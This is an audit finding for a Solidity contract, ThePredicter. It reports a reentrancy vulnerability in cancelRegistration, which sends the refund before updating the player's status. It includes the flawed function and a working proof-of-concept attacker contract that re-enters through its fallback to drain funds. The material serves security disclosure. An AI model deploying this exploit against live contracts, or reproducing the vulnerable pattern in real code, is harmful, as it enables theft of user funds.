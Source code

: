 ## Vulnerability Details

Relevent link- <https://github.com/Cyfrin/2024-07-the-predicter/blob/main/src/ThePredicter.sol>

Any user is able to register in `ThePredicter::register` and therefore would be able to call the `cancelRegistration` function to receive their refund. Due to an external call being made before updating the player's status, this function is vulnerable to a reentrancy attack. The user would be able to create an external contract that calls `cancelRegistration` every time it receive ether in a fallback function. The process can repeat until the contract balance is below the entrance fee.

```Solidity
function cancelRegistration() public {
        if (playersStatus[msg.sender] == Status.Pending) {
            //@audit-data function does not follow CEI pattern and can be called in a loop until contract balance is empty
@>          (bool success, ) = msg.sender.call{value: entranceFee}("");
            require(success, "Failed to withdraw");
            playersStatus[msg.sender] = Status.Canceled;
            return;
        }
        revert ThePredicter__NotEligibleForWithdraw();
    }
```

## POC

Create the following contract

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {ThePredicter} from "../src/ThePredicter.sol";
import {ScoreBoard} from "../src/ScoreBoard.sol";

contract ReentrancyAttacker {
    ThePredicter thePredicter;
    uint256 entranceFee;

    constructor(address _thePredicter) {
        thePredicter = ThePredicter(_thePredicter);
        entranceFee = thePredicter.entranceFee();
    }

    function attack() external payable {
        thePredicter.register{value: entranceFee}();
        thePredicter.cancelRegistration();
    }

    fallback() external payable {
        if (address(thePredicter).balance >= entranceFee) {
            thePredicter.cancelRegistration();
        }
    }
}
```
